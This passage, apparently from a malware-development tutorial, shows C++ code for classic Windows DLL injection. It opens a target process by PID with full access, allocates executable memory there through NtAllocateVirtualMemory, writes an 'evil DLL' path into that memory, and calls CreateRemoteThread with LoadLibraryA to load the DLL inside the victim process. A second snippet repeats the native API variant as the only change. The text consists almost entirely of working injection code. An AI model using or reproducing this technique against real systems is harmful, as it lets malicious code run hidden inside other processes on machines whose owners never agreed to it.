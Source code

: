 ```cpp
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  pNtAllocateVirtualMemory myNtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(ntdll, "NtAllocateVirtualMemory");  

  // allocate memory buffer for remote process
  myNtAllocateVirtualMemory(ph, &rb, 0, (PULONG)&evilLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

The only difference is:       

```cpp

//...
#pragma comment(lib, "ntdll")

typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
  HANDLE             ProcessHandle,
  PVOID              *BaseAddress,
  ULONG              ZeroBits,
  PULONG             RegionSize,
  ULONG              AllocationType,
  ULONG              Protect
);

//...
//...
//...

pNtAllocateVirtualMemory myNtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(ntdll, "NtAllocateVirtualMemory");  

// allocate memory buffer for remote process
myNtAllocateVirtualMemory(ph, &rb, 0, (PULONG)&evilLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

//...
```
